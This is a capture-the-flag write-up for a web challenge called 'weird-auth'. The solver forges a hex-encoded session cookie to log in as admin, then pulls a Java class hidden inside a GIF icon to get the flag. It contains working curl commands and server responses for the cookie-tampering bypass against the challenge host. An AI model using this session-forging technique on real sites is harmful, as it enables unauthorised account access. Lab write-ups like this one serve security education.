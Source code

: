weird-auth
==========

Link: https://backdoor.sdslabs.co/challenges/WEIRD-AUTH \
Tags: [scythe16] [web]

Description:
------------

Log in to a website as the admin user, and steal a flag.

Solution:
---------

There's nothing much to see on this website; just a login form asking for a name and password. If you enter pretty much anything, it will log you in straight away:

```
$ echo -n >cookiejar
$ curl -s -bcookiejar -ccookiejar -L --include -dusername=foo -dpassword=bar http://hack.bckdr.in:16004/submit.php
HTTP/1.1 302 Found
Host: hack.bckdr.in:16004
Connection: close
X-Powered-By: PHP/5.6.40
Set-Cookie: session=6f61736469303833686a64616e6d6164666f777530666f6f
Location: webpage.php
Content-type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Host: hack.bckdr.in:16004
Connection: close
X-Powered-By: PHP/5.6.40
Content-type: text/html; charset=UTF-8


<html>
  <head>
    <title>Login Successfull</title>
        <link rel="shortcut icon" href="icon.gif" type="image/x-icon" />
      </head>
  <body>
    Welcome foo !!!<br />
    Click <a href = "logout.php">here</a> to log out
  </body>
</html>
$ cat cookiejar
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

hack.bckdr.in	FALSE	/	FALSE	0	session	6f61736469303833686a64616e6d6164666f777530666f6f
```

But if you try to use `admin` as the username, you'll get an error:

```
$ echo -n >cookiejar
$ curl -bcookiejar -ccookiejar -L --include -dusername=admin -dpassword=letmein http://hack.bckdr.in:16004/submit.php
HTTP/1.1 302 Found
Host: hack.bckdr.in:16004
Connection: close
X-Powered-By: PHP/5.6.40
Location: index.php?error=Invalid_Credentials
Content-type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Host: hack.bckdr.in:16004
Connection: close
X-Powered-By: PHP/5.6.40
Content-type: text/html; charset=UTF-8


<html>
  <head>
    <title>Login</title>
    <link rel="shortcut icon" href="icon.gif" type="image/x-icon" />
  </head>
  <body>
    <form action = "submit.php" method = "post">
      Username: <input type = "text" name = "username" /><br />
      Password: <input type = "password" name = "password" />
      <p style='color: red'>Invalid_Credentials</p>      <input type = "submit" value = "Login" />
    </form>
  </body>
</html>
```

Perhaps we can bypass this by editing the cookie value. Hex decoding the cookie we obtained earlier gives us the following string:

```
oasdi083hjdanmadfowu0foo
```

The last three characters correspond to the username we provided. Let's change those to `admin` and jump straight to the `webpage.php` URL that the website redirects to after a successful login:

```
$ echo -n oasdi083hjdanmadfowu0admin | xxd -p
6f61736469303833686a64616e6d6164666f77753061646d696e
$ curl --include -bsession=6f61736469303833686a64616e6d6164666f77753061646d696e http://hack.bckdr.in:16004/webpage.php
HTTP/1.1 200 OK
Host: hack.bckdr.in:16004
Connection: close
X-Powered-By: PHP/5.6.40
Content-type: text/html; charset=UTF-8


<html>
  <head>
    <title>Login Successfull</title>
        <link rel="shortcut icon" href="icon256.gif" type="image/x-icon" />
      </head>
  <body>
    Welcome admin !!!<br />
    Click <a href = "logout.php">here</a> to log out
  </body>
</html>
```

No flag there, but it says "Welcome admin" so we must have logged in. And wait a minute; the location of the shortcut icon has changed from `icon.gif` to `icon256.gif`. That's where the flag must be.

The `strings` utility finds a few unusual strings near the end of this file:

```
$ strings icon256.gif
GIF89a
#"%##)&&*)&&&))'(,*+&*&3*%1.-9+%31.;2-;1&1/0532:63;96=<:785./.M(
D-$C4,I5)W7)C:4L;3B>;G95U=4T*"d8(l=3J
  :
  :
META-INF/
META-INF/MANIFEST.MFPK
lHCX
Program.classPK
```

What's a program doing in there? The `PK` looks like the signature of a ZIP file, and `zipinfo` agrees:

```
$ zipinfo icon256.gif
Archive:  icon256.gif
Zip file size: 38505 bytes, number of entries: 3
warning [icon256.gif]:  37413 extra bytes at beginning or within zipfile
  (attempting to process anyway)
-rw----     2.0 fat        0 bX defN 16-Mar-12 17:13 META-INF/
-rw----     2.0 fat       89 bl defN 16-Mar-12 17:13 META-INF/MANIFEST.MF
-rw----     2.0 fat      990 bl defN 16-Mar-12 17:13 Program.class
3 files, 1079 bytes uncompressed, 702 bytes compressed:  34.9%
```

This looks like a Java class file. Unfortunately, running it doesn't seem to work:

```
$ java -cp . Program
Flag is -wGѫUC}}���e
```

We're definitely getting warm, though. Running `strings` on the unzipped class file reveals the base64-encoded flag.

